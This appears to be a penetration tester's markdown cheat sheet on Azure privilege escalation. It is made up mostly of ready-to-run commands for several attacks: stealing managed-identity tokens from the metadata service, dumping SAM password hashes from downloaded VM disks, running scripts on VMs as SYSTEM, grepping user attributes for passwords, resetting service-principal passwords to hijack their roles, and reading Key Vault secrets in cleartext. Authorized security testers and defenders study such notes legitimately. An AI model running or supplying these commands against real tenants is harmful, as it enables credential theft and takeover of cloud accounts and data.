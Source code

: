 # Privilege Escalation
- First step is determining what we can read
  - Key Vaults
  - VMs
  - Deployment scripts
  - AD user attribute data
  - Runbooks

## Virtual machines
### VM might be managed identity
- https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-privilege-escalation-using-managed-identities/
- If you have access to a VM it might actually have more privileges than your user in Azure
- VM can auth to Azure with a Managed Identity by requesting Oauth token from Azure Metadata Service URL at http://169.254.169.254/metadata/identity/oauth2/token
- RDP to VM, request token, and connect to Azure using AZ cli or Az PowerShell

#### Login on VM as managed idenity
```
az login –identity
```

#### List permissions of current subscription
- May have more permissions then the user
```
az role assignment list -–assignee ((az account list | ConvertFrom-Json).id)
```

#### If no AZ module can request token manually to authenticate
```
Invoke-WebRequest -Uri 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/' -Method GET -Headers @{Metadata="true"} -UseBasicParsing
```

### Read password hashes from virtual machine
- Download the disk https://docs.microsoft.com/en-us/azure/virtual-machines/windows/download-vhd#generate-download-url

#### Check the disks
```
sudo fdisk –l
```

#### Mount the disk
```
sudo mkdir /media/mounted-drive
sudo mount /dev/sdc4 /media/mounted-drive/
```

#### Navigate to the windows snapshot
```
cd /media/mounted-drive/
ls
```

#### Copy system/SAM and dump hashes
```
cd /media/mounted-drive/Windows/System32/config/
cp SAM SYSTEM ~/
cd ~/
impacket-secretsdump -system SYSTEM -sam SAM LOCAL
```

### Execute commands
- Requires the "Virtual Machine Contributor" role
- Run as default by SYSTEM or root
- Commandid =  RunPowerShellScript or RunShellScript

```
Invoke-AzVMRunCommand -ResourceGroupName <resource group name> -VMName <VM name> -CommandId RunPowerShellScript -ScriptPath ./powershell-script.ps1
```

### Reset password from VM
- Can be done from Azure portal
- This may be a quick way to gain access and avoid PowerShell alerting
- Be careful though as scripts/services may be using the credential

## Ad user attributes
- User attributes and sensitive information

#### Request all attributes and look for password string
- Might also use token, secret, pass etc.
```
$users = Get-MsolUser; foreach($user in $users){$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; foreach($prop in $props){if($user.$prop -like "*password*"){Write-Output ("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop)}}} 
```

## Service Principal Hijacking
- There are over 200 default service principals in an O365 tenant
- None of them are listed in the Azure GUI portal
- An “Application Administrator” can change passwords or certificates for service principals… even the default ones
- Some interesting permissions as identified by Dirk-Jan Mollema: https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/
- Application Admin can’t add users to groups but can change the password of a service principal that can add users to groups.

#### List service principals as Application Administrator
```
Get-AzureAdServicePrincipal
```

#### Change password of service prinicpal
```
$spn = Get-AzureADServicePrincipal -SearchString "<SPN DISPLAY NAME>"
New-AzureADServicePrincipalPasswordCredential -objectid $spn.ObjectId -EndDate "12-31-2099 12:00:00" -StartDate "6-8-2018 13:37:00" -Value "<PASSWORD>"
```

- One way to quickly determine what service principals might be useful would be list out all roles for each service
- Not easily done through PowerShell Cmdlets
- Change password for a service principal
- Use cred to auth with Microsoft Graph scope
- Brute force all Object ID’s against Microsoft Graph endpoint that responds with role information
- Web request for auth to Microsoft Graph
```
POST /<tenant ID>/oauth2/v2.0/token HTTP/1.1
Host: login.microsoftonline.com
client_id=<application 
ID>&scope=https%3A%2F%2Fgraph.microsoft.com%2F.default&client_secret=
<service principal password>&grant_type=client_credentials
```
- A bearer token should be returned if auth was successful
- Then use the bearer token with the following request setting the service principal ObjectID against graph.windows.net
```
GET /beta/servicePrincipals/<Service Principal ObjectID> HTTP/1.1

Host: graph.microsoft.com
Authorization: Bearer <JWT Bearer Token Value>
```
- Response contains role information
- Next, something like Burp’s Intruder could be used to brute force each service principal ID against the Microsoft Graph endpoint URL
```
$apps = Get-AzADServicePrincipal
$apps.Id
```
- Now we can choose what level of access we want and change the pass for that service principal

## Break glass accounts
- Another PrivEsc target is Azure “Break Glass” administrative accounts
- Microsoft recommends not setting up MFA for them
- Two accounts are usually recommended to be set up
- If you can determine which ones are the break glass they can be good targets

## Azure key vaults
#### List key vaults which current user has view access too
```
az keyvault list --query '[].name' --output tsv
```

#### Try to access keyvault
```
az keyvault secret list --vault-name <KEYVAULT> --query '[].id' --output tsv
```

#### Read cleartext secret
```
az keyvault secret show --id <URI from last command> | ConvertFrom-Json
```

#### Give access if contributer role
```
az keyvault set-policy --name <KEYVAULT NAME> --upn <CONTRIBUTER USERNAME> --secret-permissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list
```

#### Powerzure get keyvault contents
```
Get-AzureKeyVaultContent
```
